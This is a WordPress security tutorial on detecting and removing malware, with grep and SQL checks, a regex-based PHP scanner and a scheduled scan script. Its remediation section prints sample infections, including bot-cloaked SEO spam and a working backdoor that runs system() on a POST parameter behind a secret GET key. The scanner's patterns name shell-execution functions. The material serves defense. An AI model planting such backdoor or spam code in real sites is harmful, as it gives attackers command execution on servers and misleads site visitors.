

# WordPress Malware Scanning

## Introduction

WordPress powers over 40% of all websites on the internet, making it a prime target for hackers and malicious actors. Malware in WordPress installations can lead to data breaches, website defacement, SEO spam, and even complete site takeovers. In this guide, we'll explore how to effectively scan your WordPress site for malware, understand the signs of infection, and implement a robust security strategy.

Malware scanning is the process of systematically checking your WordPress files, database, and other components for suspicious code that could indicate a security breach. It's a crucial part of maintaining a healthy WordPress site and protecting your visitors and data.

## Why Malware Scanning Matters

Before diving into the technical aspects, let's understand why regular malware scanning is essential:

1. **Reputation Protection**: Infected sites can be blacklisted by Google and other search engines
2. **User Safety**: Malware can steal data from your visitors or redirect them to malicious sites
3. **Performance**: Infected sites often experience significant performance issues
4. **SEO Rankings**: Malware can negatively impact your search engine rankings
5. **Data Protection**: Your site's data and user information remain secure

## Signs Your WordPress Site Might Be Infected

Before we explore scanning tools, let's identify some common warning signs that your WordPress site might be infected:

- Unexplained slowdowns in site performance
- Strange or unauthorized content appearing on your site
- Unusual admin users you didn't create
- Unexpected redirects to other websites
- Google warnings about your site being unsafe
- Unusual spikes in server resource usage
- Locked out of your admin dashboard

## Manual Malware Scanning Techniques

While automated tools are effective, understanding how to manually check for malware gives you greater insight and control.

### 1. Check Recently Modified Files

You can use FTP or your hosting control panel's file manager to check which files were recently modified:

```bash
# Using SSH to find recently modified files (last 7 days)
find /path/to/wordpress/installation -type f -mtime -7 | grep -v "wp-content/uploads/" | sort
```

Unexpected file modifications, especially to core WordPress files, can indicate a compromise.

### 2. Examining WordPress Core Files

Compare your core WordPress files with the official repository:

```bash
# Using WP-CLI to verify core files
wp core verify-checksums
```

If you see output indicating modified files, they should be investigated:

```
Warning: File doesn't verify against checksum: wp-admin/includes/upgrade.php
Warning: File doesn't verify against checksum: wp-includes/functions.php
```

### 3. Search for Suspicious Code

Look for common malware signatures in your files:

```bash
# Search for base64_decode which is often used in malware
grep -r "base64_decode" /path/to/wordpress --include="*.php"

# Search for eval with base64 (common malware pattern)
grep -r "eval *( *base64" /path/to/wordpress --include="*.php"
```

Common malicious code patterns include:

```php
// Suspicious code example - this is often hidden in legitimate files
<?php eval(base64_decode('c29tZSBtYWxpY2lvdXMgY29kZQ==')); ?>

// Another example - obfuscated malicious code
<?php $a = 'ba'.'se'.'64'.'_de'.'co'.'de'; $b = $a('c29tZSBtYWxpY2lvdXMgY29kZQ=='); eval($b); ?>
```

### 4. Check the Database

Malware often hides in the WordPress database. Here are some SQL queries to help identify potential issues:

```sql
-- Check for suspicious URLs in posts and postmeta
SELECT * FROM wp_posts WHERE post_content LIKE '%eval(%' OR post_content LIKE '%base64_%';
SELECT * FROM wp_postmeta WHERE meta_value LIKE '%eval(%' OR meta_value LIKE '%base64_%';

-- Look for suspicious users
SELECT * FROM wp_users WHERE user_registered > DATE_SUB(NOW(), INTERVAL 7 DAY);
```

## Automated Malware Scanning Solutions

While manual scanning is educational, automated tools provide more thorough and consistent protection.

### 1. WordPress Security Plugins

Several WordPress plugins offer malware scanning capabilities:

#### Setting Up Wordfence Security

Wordfence is one of the most popular WordPress security plugins with robust malware scanning features:

1. Install the plugin from the WordPress repository
2. Navigate to Wordfence → Scan in your dashboard
3. Configure your scan settings:

```json
// Example Wordfence scan settings (for illustration)
{
  "scheduledScanEnabled": true,
  "scheduledScanStartHour": 2,
  "lowResourceScanning": true,
  "scanComments": true,
  "scanFileContents": true,
  "scanPosts": true,
  "scanCoreFiles": true,
  "scanPluginFiles": true,
  "scanThemeFiles": true
}
```

4. Run your first scan and review the results

### 2. Using the Command Line for Scanning

For more advanced users, command-line tools can provide deeper scanning capabilities:

```bash
# Using ClamAV to scan WordPress installation
clamscan -ri /path/to/wordpress

# Using MALDET (Linux Malware Detect)
maldet --scan-all /path/to/wordpress
```

### 3. Creating a Custom Malware Scanner

For educational purposes, here's a basic PHP script that can help identify potentially suspicious files:

```php
<?php
// Simple PHP malware scanner - for educational purposes only
// Save as scan.php and run from command line: php scan.php

function scanDirectory($dir) {
    $files = scandir($dir);
    foreach ($files as $file) {
        if ($file == '.' || $file == '..') continue;
        
        $path = $dir . '/' . $file;
        if (is_dir($path)) {
            scanDirectory($path);
        } elseif (pathinfo($path, PATHINFO_EXTENSION) == 'php') {
            scanFile($path);
        }
    }
}

function scanFile($file) {
    $content = file_get_contents($file);
    $suspicious = false;
    
    // Check for common suspicious patterns
    $patterns = array(
        'eval\s*\(.*base64_decode',
        'base64_decode\s*\(.*\)',
        'gzinflate\s*\(.*\)',
        'eval\s*\(\$_',
        'system\s*\(.*\)',
        'shell_exec\s*\(.*\)',
        'preg_replace\s*\(.*\/e',
        'passthru\s*\(.*\)',
        'assert\s*\(.+\)',
        'str_rot13\s*\(.*\)',
        'gzuncompress\s*\(.*\)',
        '(\$\w+\s*=\s*\$\w+\(\))\s*;'
    );
    
    foreach ($patterns as $pattern) {
        if (preg_match('/' . $pattern . '/i', $content)) {
            echo "SUSPICIOUS FILE: $file (matched pattern: $pattern)\n";
            $suspicious = true;
            break;
        }
    }
    
    // Check file modification time
    $time = filemtime($file);
    $now = time();
    if (($now - $time) < 86400 && !$suspicious) { // Modified in last 24 hours
        echo "RECENTLY MODIFIED: $file (modified " . date('Y-m-d H:i:s', $time) . ")\n";
    }
}

// Start scan from current directory
echo "Starting malware scan...\n";
scanDirectory('.');
echo "Scan complete.\n";
```

## Implementing a Malware Scanning Strategy

For effective protection, implement a comprehensive malware scanning strategy:



### Weekly Scanning Checklist

1. **Monday**: Run a full automated scan
2. **Wednesday**: Check recently modified files and review logs
3. **Friday**: Scan database for suspicious content
4. **Weekend**: Review scan reports and implement improvements

## Real-world Malware Examples and Remediation

Let's examine some common WordPress malware types and how to address them:

### Example 1: SEO Spam Injection

**Infected File Example:**

```php
<?php
// Normal WordPress file begins
...

// Hidden malicious code injected at the end of the file
if (isset($_SERVER['HTTP_USER_AGENT']) && preg_match('/bot|crawl|slurp|spider/i', $_SERVER['HTTP_USER_AGENT'])) {
    echo '<div style="position:absolute;top:-1000px;left:-1000px;">';
    echo 'Buy cheap medications online at pharmaspammer.com';
    echo '</div>';
}
?>
```

**Remediation:**
1. Remove the malicious code block
2. Check all PHP files for similar injections
3. Update WordPress, themes, and plugins
4. Change all passwords

### Example 2: Backdoor Installation

**Infected File Example:**

```php
<?php
// Backdoor disguised as a legitimate WordPress function
function wp_validate_auth_cookie_backup($cookie = '', $scheme = '') {
    // Original function code...
    
    // Backdoor code
    if (isset($_GET['access']) && $_GET['access'] == 'granted') {
        $cmd = isset($_POST['cmd']) ? $_POST['cmd'] : '';
        if (!empty($cmd)) {
            echo "<pre>";
            system($cmd);
            echo "</pre>";
            die();
        }
    }
    
    // Rest of original function...
}
?>
```

**Remediation:**
1. Replace the infected file with a clean version from the WordPress repository
2. Scan for other backdoors using both automated and manual methods
3. Implement file integrity monitoring
4. Review server access logs for signs of intrusion

## Setting Up Regular Scans

Regular scanning is crucial for ongoing protection. Here's a PHP script that you can set up as a cron job to run daily scans:

```php
<?php
// Daily scan script - set this up as a cron job
// Example cron entry: 0 2 * * * php /path/to/daily-scan.php

// Configuration
$site_path = '/path/to/wordpress';
$scan_log = '/path/to/logs/malware-scan.log';
$notification_email = 'admin@example.com';

// Log function
function log_message($message) {
    global $scan_log;
    $date = date('Y-m-d H:i:s');
    file_put_contents($scan_log, "[$date] $message" . PHP_EOL, FILE_APPEND);
}

// Initialize
log_message("Starting daily malware scan");

// Check core file integrity using WP-CLI
$output = [];
exec("cd $site_path && wp core verify-checksums --format=json 2>&1", $output);
$core_check = implode("\n", $output);
log_message("Core file check results: $core_check");

// Scan for recently modified files excluding uploads
$output = [];
exec("find $site_path -type f -mtime -1 | grep -v 'wp-content/uploads/'", $output);
if (count($output) > 0) {
    log_message("Recently modified files (last 24 hours):");
    foreach ($output as $file) {
        log_message("  - $file");
    }
}

// Scan for suspicious patterns
$output = [];
exec("grep -r 'eval.*base64' $site_path --include='*.php'", $output);
if (count($output) > 0) {
    log_message("ALERT: Suspicious code patterns found:");
    foreach ($output as $match) {
        log_message("  - $match");
    }
    
    // Send email notification
    mail(
        $notification_email,
        "URGENT: Malware detected on your WordPress site",
        "Suspicious code patterns were detected during the daily scan. Please check the scan log at $scan_log for details.",
        "From: WordPress Security <security@" . parse_url(site_url(), PHP_URL_HOST) . ">"
    );
}

log_message("Daily scan completed");
```

## Prevention Measures

Prevention is always better than cure. Implement these measures to reduce the risk of malware infections:

1. **Keep WordPress Updated**: Always run the latest version of WordPress core, themes, and plugins
2. **Strong Passwords**: Use complex passwords and change them regularly
3. **Limit Login Attempts**: Install a plugin to block brute force attacks
4. **File Permissions**: Set proper permissions (typically 644 for files and 755 for directories)
5. **Web Application Firewall**: Implement a WAF to block malicious traffic
6. **Regular Backups**: Maintain recent backups to restore if needed

## Summary

WordPress malware scanning is a critical component of website security. By implementing both automated and manual scanning techniques, you can detect and remediate malicious code before it causes significant damage. Remember that security is not a one-time task but an ongoing process that requires regular attention.

Key takeaways from this guide:
- Regularly scan your WordPress site for malware using both automated and manual methods
- Learn to recognize the signs of a potential infection
- Understand common malware patterns and how to remove them
- Implement preventative measures to reduce infection risk
- Set up a scheduled scanning routine

## Additional Resources and Exercises

### Resources
- [WordPress Codex: Hardening WordPress](https://wordpress.org/support/article/hardening-wordpress/)
- [OWASP: WordPress Security Implementation](https://owasp.org/www-pdf-archive/WordPress_Security_Implementation.pdf)
- [WPScan Vulnerability Database](https://wpscan.com/vulnerabilities)

### Exercises

1. **Create a Security Audit Checklist**: Develop a comprehensive checklist for auditing your WordPress site's security, including malware scanning steps.

2. **Practice Malware Detection**: Download a WordPress security testing environment and practice identifying injected malware code.

3. **Learn Regular Expressions**: Improve your ability to create patterns for detecting malicious code by practicing regular expressions.

4. **Set Up Monitoring Notifications**: Configure a system that notifies you when suspicious activity is detected on your site.

5. **Build a Recovery Plan**: Create a detailed plan outlining the steps you would take if your site becomes infected with malware.

By following this guide and continuously improving your security practices, you'll be well-equipped to protect your WordPress site from malware and other security threats.